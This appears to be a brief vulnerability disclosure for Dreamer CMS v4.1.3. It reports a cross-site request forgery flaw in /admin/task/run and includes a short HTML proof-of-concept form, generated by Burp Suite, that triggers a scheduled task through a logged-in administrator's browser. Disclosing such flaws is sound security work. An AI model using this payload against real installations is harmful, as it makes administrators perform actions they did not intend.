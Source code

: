 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/task/run

![图片](https://github.com/CP1379767017/cms/assets/56637547/804ec3e9-15af-4246-88dc-2614d8fa0ae6)


create poc

![图片](https://github.com/CP1379767017/cms/assets/56637547/534ca0df-ee94-4dd2-9b04-f714faabd1d2)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/task/run">
      <input type="hidden" name="id" value="1721866720087113728" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
successed

![图片](https://github.com/CP1379767017/cms/assets/56637547/d16f11ff-a8b3-41da-94e0-a3b1c1fcdf15)
